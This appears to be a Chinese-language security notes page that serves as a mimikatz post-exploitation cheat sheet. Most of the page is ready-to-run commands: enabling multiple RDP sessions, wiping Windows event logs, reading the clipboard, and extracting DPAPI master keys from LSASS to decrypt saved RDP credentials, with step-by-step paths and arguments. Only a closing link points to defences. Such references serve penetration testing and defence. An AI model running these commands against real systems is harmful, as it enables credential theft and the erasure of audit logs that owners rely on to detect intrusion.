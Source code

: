 
# 后渗透

多用户登录 3389
```
ts::multirdp
```

清除日志
```
event::drop
```

粘贴板信息
```
misc::clip
```

---

# DPAPI

通过读取 Lsass 进程信息，获取当前系统中的 MasterKey，能获得多个 Master Key file 对应的 MasterKey
```
privilege::debug
sekurlsa::dpapi
```

**RDP**

Windows 保存 RDP 凭据的目录是 `C:\Users\用户名\AppData\Local\Microsoft\Credentials`

![](../../../assets/img/Security/安全工具/mimikatz/12.png)

可通过命令行获取，执行: `cmdkey /list` 或 `powerpick Get-ChildItem C:\Users\用户名\AppData\Local\Microsoft\Credentials\ -Force`

注意: `cmdkey /list` 命令务必在 Session 会话下执行，system 下执行无结果。

mimikatz 获取 guidMasterKey,再通过 guid 来找到其所对应的 Masterkey
```
privilege::debug
dpapi::cred /in:C:\Users\USERNAME\AppData\Local\Microsoft\Credentials\SESSIONID
```

![](../../../assets/img/Security/安全工具/mimikatz/13.png)

pbData 是我们要解密的数据，guidMasterKey 是解密所需要的密钥,找到对应的 Masterkey 才能解密

根据上面的 guidMasterKey 来确定其对应的 MasterKey, 如下所示
```
sekurlsa::dpapi
```

![](../../../assets/img/Security/安全工具/mimikatz/14.png)

```
dpapi::cred /in:C:\Users\USERNAME\Desktop\test\SESSIONID /masterkey:对应GUID的masterkey"
```

![](../../../assets/img/Security/安全工具/mimikatz/15.png)

---

# 防御手段

- [Secure-Win](../../Integrated/Windows/Secure-Win.md#防御密码抓取)
